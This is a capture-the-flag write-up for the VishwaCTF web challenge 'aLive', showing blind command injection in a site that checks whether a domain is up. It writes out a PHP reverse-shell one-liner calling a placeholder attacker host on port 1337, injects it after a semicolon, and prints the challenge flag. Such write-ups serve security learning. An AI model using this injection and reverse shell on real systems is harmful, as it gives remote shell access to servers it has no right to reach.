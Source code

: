 # **Writeup - VishwaCTF**

* Category **web** 
* Name **aLive** 
* Difficulty **Medium**


## Description

In my college level project I created this website that tells us if any domain/ip is active or not. But there is a catch.

<img width="1324" alt="image" src="https://user-images.githubusercontent.com/121932742/232243936-dce05fad-bcf9-43a6-a545-90b24288aacb.png">



## **Solution**

The proper method to solve this challenge was doing a **Blind Command Injection**.

![image](https://user-images.githubusercontent.com/121932742/232248816-cce317cd-807a-4d28-819a-66b9ae2b9629.png)

This is how the website functions 

Now lets try to play with it

![image](https://user-images.githubusercontent.com/121932742/232248852-8d8fc05b-850f-4fdf-aa32-4bc1dd4ac732.png)

FISHY!

Now this is a sign of a blind command injection, entering localhosts alone tells you that it is not active. But appending ;ls returns that it is active.

After inspecting the request I intercepted in burp suite I found this:
X-Powered-By: PHP/8.1.2–1ubuntu2.11

Which tells two things.
1- The OS is Ubuntu.
2- The website’s backend is PHP.
So I went to revshells.com and grabbed this reverse shell payload:

```php -r '$sock=fsockopen("ATTACKER.IP",1337);shell_exec("sh <&3 >&3 2>&3");'```

A nc listener is on as well as NGROK.
The final payload I sent to the web application is this:

```localhosts;php -r '$sock=fsockopen("ATTACKER.IP",1337);shell_exec("sh <&3 >&3 2>&3");```

![image](https://user-images.githubusercontent.com/121932742/232248650-06314a44-3ae8-4c64-8299-605317d9f6bb.png)




To print the flag, we can use the **cat** command or we can access to the directory (add /flag.txt to the URL). 

<img width="1030" alt="image" src="https://user-images.githubusercontent.com/121932742/232244112-9db4bf0c-79b4-4651-b9cd-5c950a6da4b2.png">


> flag: **VishwaCTF{b1inD_cmd-i}**
